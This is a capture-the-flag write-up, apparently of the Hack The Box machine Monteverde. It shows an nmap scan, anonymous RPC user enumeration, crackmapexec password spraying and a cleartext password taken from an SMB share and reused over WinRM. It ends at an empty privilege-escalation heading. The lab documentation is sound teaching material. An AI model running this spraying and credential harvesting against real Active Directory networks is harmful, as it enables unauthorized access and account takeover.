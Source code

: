 # Enumeration
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-18 17:08 EST
Stats: 0:04:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.12% done; ETC: 17:12 (0:00:02 remaining)
Nmap scan report for 10.10.10.172
Host is up (0.017s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-18 22:18:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/18%Time=5E2381D3%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-18T22:20:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 303.00 seconds
```

**Enum4Linux:** </br>
I first used this tool, and got a list of users from the rpcclient what gave me the idea that it allows an anonymous login. </br>

**SMB:** <br>
Failed to connect with smbclient / smbmap </br>
Commands: </br>
```smbmap -H 10.10.10.172``` -> Access Denied. </br>
```smbclient -N -L //10.10.10.172``` </br>


## Initial Foothold

**RPC:** </br>
```rpcclient -U "" -N 10.10.10.172``` </br>
**querydispinfo** -> Found nothing interesting. </br>
**enumdomusesrs** -> Got the list of users. </br>
![enum_dom_users](images/monteverde/enum_dom_users.png) </br>
Copied the list of users to a new file, used awk to cut the file:  ```cat users | awk -F\[ '{print $2}' | awk -F\] '{print $1}'``` </br>
I decided to do password spraying with crackmapexec to check if any user has used his username as his password: </br>
```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

I found ```SABatchJobs``` credentials. </br>
I was able to browse some interesting shares with this user, with this command: </br>
```smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs``` </br>
I saw I had access to read usesrs$, SYSVOL, NETLOGON, IPC$ and azure_uploads shares. </br>
I used smbclient, and found something interesting in ```users$``` share: </br>
![smb_users_share](images/monteverde/smb_users_share.png) </br>
Under the user ```mhope```, there is a file called ```azure.xml```, I grabbed it with: ```get azure.xml``` </br>
![azure_file](images/monteverde/azure_file.png) </br>
It contains a password: ```<S N="Password">4n0therD4y@n0th3r$</S>``` </br>
Since it was under mhope's share, I assumed that it is his password, but I tried this password for all of the users just in case: </br>
```crackmapexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$'``` </br>
I also checked if evil-winrm worked for mhope's user: </br>
```crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'``` </br>
I got a ```Pwn3d!``` , so it did work over WinRM. </br>
![user_flag](images/monteverde/user_flag.png) </br>
# Privilege Escalation








